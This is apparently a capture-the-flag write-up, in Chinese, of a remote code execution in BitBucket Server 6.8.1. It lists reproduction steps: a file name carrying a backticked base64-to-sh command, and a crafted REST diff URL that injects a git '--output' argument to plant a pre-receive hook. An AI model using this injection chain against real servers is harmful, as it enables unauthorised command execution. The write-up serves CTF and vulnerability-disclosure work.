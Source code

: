 # Shellbucket

Firstblood!

Demo: https://www.youtube.com/watch?v=IrwH0ALn9Vg

BitBucket Server 6.8.1 0day題

觸發這個RCE有兩個條件:
1. Public sign up is allowed
2. Project Creator permission is granted to stash-users group

重現步驟:
1. 註冊一個使用者並登入
2. 建立一個project和repo (e.g. project:`MYP`, repo:`testrepo`)
3. Push 一個檔案，檔名為``` `your_command` ``` (e.g. ``` `echo dG91Y2ggL3RtcC9rYWlicm9fcmNlCg==|base64 -d|sh` ```)
4. 訪問`/rest/api/latest/projects/MYP/repos/testrepo/diff/%60echo%20dG91Y2ggL3RtcC9rYWlicm9fcmNlCg%3D%3D%7Cbase64%20-d%7Csh%60?until=%20--output=hooks/pre-receive`會觸發 git command argument injection，並寫入git hooks
5. 隨便push一個commit，觸發git hooks
6. RCE

p.s. 結果最後發現是非預期解，然後有人比我們早丟Bounty XD
